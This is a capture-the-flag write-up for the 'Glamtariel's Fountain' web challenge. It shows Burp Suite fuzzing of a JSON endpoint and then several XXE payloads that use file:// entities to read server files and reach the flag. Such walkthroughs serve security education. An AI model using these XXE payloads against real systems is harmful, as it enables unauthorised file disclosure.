





# Glamtariel's Fountain



We're taken to a website, `https://glamtarielsfountain.com/`. At the bottom we're given two items (note that the "Reset" button in the top right changes these values):

- **Snack**: `0c4b81f9-38fc-40be-9c4b-b3bbb3a95ab5`
- **Ticket**: `ImY4ZTAxYzYyMGNiZmVhMjEyMDE4YTYzNTlkZDI0ODJmZmFlYjBmYzMi.Y5aBDQ.G_4D45x_A59zk-2nS22JWXfPSU4`

I'm going to do a short walkthrough straight to the answer without my struggles, because this was honestly a massive PITA and had way too much guessing involved.

1. You can drag and drop the items to the princess or the fountain. These are represented in a JSON object via `POST /dropped`:



1. You receive a JSON object in the response, which changes depending on the `imgDrop` (img1 thru img4) and the `who` (princess or fountain).



1. Eventually you find that you need to talk to them using XML format vs. JSON. I used Burp suite to Cluster Bomb the way to the end (if you do this manually, you'll find that the objects change twice).  I did the following:
	1. `Content-Type: <application/json|application/xml>`
	2. `imgDrop: img<#>`
	3. `who: <fountain|princess>`
	4. `reqType: <json|xml>`

1. Once I got to the end, I removed the JSON references and sent the input to Burpsuite's Repeater function. I also converted the input from JSON to XML:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

1. We now have to use XXE (XML External Entity) to read the RINGLIST file (it is referenced in one of the Princess' texts).  This is where the pain is. Eventually, we get the following to work:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

1. Once we do that, we get a response:

```json
{
  "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
  "droppedOn": "none",
  "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
}
```

1. Navigating to the image provided, we get:



1. It has `x_phial_pholder_2022` on the folder cover, with `bluering.txt` and `redring.txt` files inside of it. So we craft a new payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt"> ]>
<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Which returns:

```json
{
  "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
}
```

1. This returns a new ring picture with another string, `goldring_to_be_deleted.txt` (I have rotated the picture to make it readable):



1. New payload, new response:

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>

<root>
  <imgDrop>&bar;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

```json
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

1. We see reference to REQ and TYPE in this response. Maybe we need to do an XXE in against `reqType` instead of `imgDrop`?

```xml
<?xml version="1.0" ?>
<!DOCTYPE foo [ <!ENTITY bar SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>

<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&bar;</reqType>
</root>
```

Response:

```json
{
  "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
  "droppedOn": "none",
  "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
}
```


Answer: `goldring-morethansupertopsecret76394734.png`

Back to the [web room](../README.md)!